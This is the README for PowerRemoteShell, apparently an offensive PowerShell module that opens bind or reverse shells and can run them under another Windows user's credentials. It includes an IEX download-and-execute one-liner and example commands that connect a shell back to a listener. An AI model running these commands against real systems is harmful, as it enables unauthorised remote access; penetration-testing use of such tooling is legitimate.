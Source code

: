 # PowerRemoteShell

A PowerShell module that can also function as a standalone script, enabling users to spawn either a bind or reverse shell. Additionally, it includes the capability to authenticate the shell session as a different Windows user.

## Quick Setup

```powershell
IEX (Get-Content .\PowerRemoteShell.psm1 -Raw)
```

Or

```powershell
IEX (New-Object Net.WebClient).DownloadString('<protocol>://<host>:<port>/<uri>/PowerRemoteShell.psm1')
```

Or Invoke-🧠

## Usage

| Parameter          | Type             | Default    | Description  |
|--------------------|------------------|------------|--------------|
| Address (*)        | String           | None       | For 'Reverse' mode, this specifies the remote machine to connect to (e.g., a Netcat listener). For 'Bind' mode, this defines the interface to bind to (e.g., 0.0.0.0 to listen on all interfaces). |
| Port (*)           | Integer (Word)   | None       | For 'Reverse' mode, this specifies the port on the remote machine to connect to. For 'Bind' mode, this defines the port to listen on. |
| Mode (*)           | Choice           | None       | Defines the type of remote shell: 'Reverse' (initiates a connection back to a listener) or 'Bind' (opens a port and waits for an incoming connection). |
| ShellKind          | Choice           | PowerShell | Specifies the shell application to capture and redirect to the network socket. Options include 'PowerShell', 'Cmd', or the default shell defined by the 'COMSPEC' environment variable. |
| Username           | String           | None       | An existing Microsoft Windows local user account.  |
| Password           | String           | None       | Password of specified user account. |
| Domain             | String           | None       | specify the domain of the user account under which the new process is to be started. |

`*` = Mandatory Options

### Examples

```powershell
# Listen on all interfaces (0.0.0.0) on port 2801 and spawn a command-line shell as the current user.
Invoke-RemoteShell -Address 0.0.0.0 -Port 2801 -Mode "bind" -ShellKind "cmd"

# Connect to the remote listener at 192.168.10.14:1403 and spawn a PowerShell shell as the current user.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "reverse"

# Listen on 192.168.10.14 (only) on port 1403 and spawn a PowerShell shell as the user 'darkcodersc'.
Invoke-RemoteShell -Address 192.168.10.14 -Port 1403 -Mode "bind" -Username "darkcodersc" -Password "mypassword"
```

![Example](images/example.png)

Demonstrate a bind shell at the top, running as the currently logged-in user, and a reverse shell at the bottom, connecting as the user 'dark'.

